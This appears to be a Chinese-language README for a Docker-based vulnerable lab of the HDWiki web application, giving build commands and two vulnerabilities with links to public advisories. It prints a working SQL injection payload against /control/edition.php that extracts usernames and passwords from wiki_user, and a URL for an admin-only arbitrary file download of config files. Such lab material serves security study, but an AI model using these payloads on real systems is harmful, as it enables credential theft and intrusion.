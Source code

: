 ## 系统安装

```
docker-compose build 
docker-compose up -d
```

或者是直接从hub上pull镜像


## 漏洞一:
/control/edition.php sql注入漏洞

PAYLOAD:
eid[0]=2&eid[1]=19&eid[2]=-3) UNION SELECT 1,2,35,4,5,6,7,8,9,10,user(),username,password,14,15,16,17,18,19 from wiki_user%23
![](zoro1.png)

## 漏洞二:
任意文件下载漏洞，此漏洞需要admin权限才能下载
http://127.0.0.1:8002/index.php?admin_db-downloadfile-/**/**/config*php


[](http://0day5.com/archives/2978/)
[](https://www.seebug.org/vuldb/ssvid-91814)
[](http://blog.sina.com.cn/s/blog_6920343901011jmh.html)
[](https://bugs.leavesongs.com/php/hdwiki%E6%B3%A8%E5%85%A5%E5%AF%BC%E8%87%B4%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8B%E8%BD%BD/)
[](https://www.secpulse.com/archives/7852.html)
[](http://www.yunsec.net/a/security/bugs/script/2012/0406/10410.html)
[](https://www.secpulse.com/archives/32842.html)


